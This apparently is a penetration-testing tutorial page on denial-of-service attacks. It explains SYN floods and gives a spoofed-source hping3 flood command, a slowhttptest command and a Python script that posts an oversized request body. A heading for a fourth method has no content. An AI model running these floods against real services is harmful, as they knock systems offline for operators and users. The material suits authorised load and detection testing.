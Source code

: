 ## 1) TCP SYN FLOOD DOS ATTACK
DoS attacks are simple to carry out, can cause serious downtime, and aren’t always obvious. In a SYN flood attack, a malicious party exploits the TCP protocol 3-way handshake to quickly cause service and network disruptions, ultimately leading to an Denial of Service (DoS) Attack. These type of attacks can easily take admins by surprise and can become challenging to identify. Luckily tools like Wireshark makes it an easy process to capture and verify any suspicions of a DoS Attack.

### HOW TCP SYN FLOOD ATTACKS WORK
When a client attempts to connect to a server using the TCP protocol e.g (HTTP or HTTPS), it is first required to perform a three-way handshake before any data is exchanged between the two. Since the three-way TCP handshake is always initiated by the client it sends a SYN packet to the server.

![image](https://user-images.githubusercontent.com/63053441/200159004-f6e1bddb-6629-47d5-a793-41f035a0ddfa.png)

The server next replies acknowledging the request and at the same time sends its own SYN request – this is the SYN-ACK packet. The finally the client sends an ACK packet which confirms both two hosts agree to create a connection. The connection is therefore established and data can be transferred between them.


In a SYN flood, the attacker sends a high volume of SYN packets to the server using spoofed IP addresses causing the server to send a reply (SYN-ACK) and leave its ports half-open, awaiting for a reply from a host that doesn’t exist:

![image](https://user-images.githubusercontent.com/63053441/200159205-2735b7d0-5540-42cb-ad1e-23f7ceba9b4c.png)

![image](https://user-images.githubusercontent.com/63053441/200159015-42f5ca86-1c89-480d-9b7a-038315764e61.png)

In a simpler, direct attack (without IP spoofing), the attacker will simply use firewall rules to discard SYN-ACK packets before they reach him. By flooding a target with SYN packets and not responding (ACK), an attacker can easily overwhelm the target’s resources. In this state, the target struggles to handle traffic which in turn will increase CPU usage and memory consumption ultimately leading to the exhaustion of its resources (CPU and RAM). At this point the server will no longer be able to serve legitimate client requests and ultimately lead to a Denial-of-Service.


### How To Test TCP SYN FLOOD DOS ATTACK?
However, to test if you can detect this type of a DoS attack, you must be able to perform one. The simplest way is via a Kali Linux and more specifically the hping3, a popular TCP penetration testing tool included in Kali Linux.

Alternatively Linux users can install hping3 in their existing Linux distribution using the command:

`sudo apt-get install hping3`

In most cases, attackers will use hping or another tool to spoof IP random addresses, so that’s what we’re going to focus on.  The line below lets us start and direct the SYN flood attack to our target (192.168.1.159): 

`hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159`

![image](https://user-images.githubusercontent.com/63053441/200159063-df24f0c9-c234-4821-a2ee-0e81a7c4ddca.png)

Let’s explain in detail the above command:

We’re sending 15000 packets (-c 15000) at a size of 120 bytes (-d 120) each. We’re specifying that the SYN Flag (-S) should be enabled, with a TCP window size of 64 (-w 64). To direct the attack to our victum’s HTTP web server we specify port 80 (-p 80) and use the --flood flag to send packets as fast as possible. As you’d expect, the --rand-source flag generates spoofed IP addresses to disguise the real source and avoid detection but at the same time stop the victim’s SYN-ACK reply packets from reaching the attacker.


## 2) Slow HTTP GET/POST Vulnerability

Slow HTTP attacks are denial-of-service (DoS) attacks that rely on the fact that the HTTP protocol, by design, requires a request to be completely received by the server before it is processed. If an HTTP request is not complete, or if the transfer rate is very low, the server keeps its resources busy waiting for the rest of the data. When the server’s concurrent connection pool reaches its maximum, this creates a denial of service. These attacks are problematic because they are easy to execute, i.e. they can be executed with minimal resources from the attacking machine.

`sudo apt install slowhttptest`
`slowhttptest -c 10000 -H -g -o slowhttp -i 1 -r 2000 -t GET -u https://example.com -x 2400 -p 3`

## 3) Big entity
```
import requests
import time

from requests.models import Response
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

session = requests.session()
f=open('a.txt','r').read()
#f=open(r'C:\Users\Maximus Decimus\Desktop\PoC\dos\a.txt').read()
#f="aaaaaa"
burp0_url = "http://www.site.com/"
burp0_cookies = {"_ga": "GA1.2.1958363218.1640679715", "APPNNPS": "0emjb3ejnh1xxsnz025rhwvt"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Referer": "http://www.site.com/", "Upgrade-Insecure-Requests": "1"}
burp0_data = f
start = time.time()
response = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, proxies=proxies, verify=False)
print(response)
print(f'Time: {time.time() - start}')

```

## 4) Long password
